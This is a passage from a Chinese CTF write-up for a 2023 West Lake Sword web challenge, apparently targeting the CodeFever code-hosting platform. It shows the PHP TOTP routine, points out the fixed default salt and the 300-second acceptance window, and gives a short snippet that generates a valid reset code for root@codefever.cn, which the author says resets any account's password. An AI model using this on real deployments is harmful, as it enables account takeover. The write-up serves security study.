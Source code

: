 ```php
        return sprintf($format, abs($trimedTotp));
    }


    static function generate(string $input) {
        return self::trimTotp(self::genTotp(self::hashInput($input), time()));
    }

    static function check(string $input, string $code) {
        $hashedInput = self::hashInput($input);
        $currentTime = time();
        for (
            $windowIndex = self::TOTP_CHECK_WINDOW_MIN;
            $windowIndex <= self::TOTP_CHECK_WINDOW_MAX;
            $windowIndex++
        ) {
            if (
                $code === self::trimTotp(
                    self::genTotp(
                        $hashedInput, 
                        $currentTime + ($windowIndex * self::TOTP_REFRESH_INTERVAL)
                    )
                )
            ) {
                return TRUE;
            }
        }

        return FALSE;
    }
}
```
发现 salt 是一个指定的固定值，并且存在一个前后300秒的误差
![](https://img-blog.csdnimg.cn/3124916236b14b3099a00e2e14ff229a.png)

我们设置成默认的 salt 值，然后执行
```php
$email = 'root@codefever.cn';
echo TOTP::generate($email);
```
就可以用得到的验证码重置任意账号的密码了
![](https://img-blog.csdnimg.cn/601da6de7c1749ed8e1ef2a3ec909859.png)

参考：
[ 西湖论剑 初赛 writeup by or4nge](https://mp.weixin.qq.com/s/cVLoks6tq2emTRYWasuyvg)
[ 2023西湖论剑web-writeup题解wp](https://mp.weixin.qq.com/s/WnIhWkNsYB3TR1S1LItuqA)
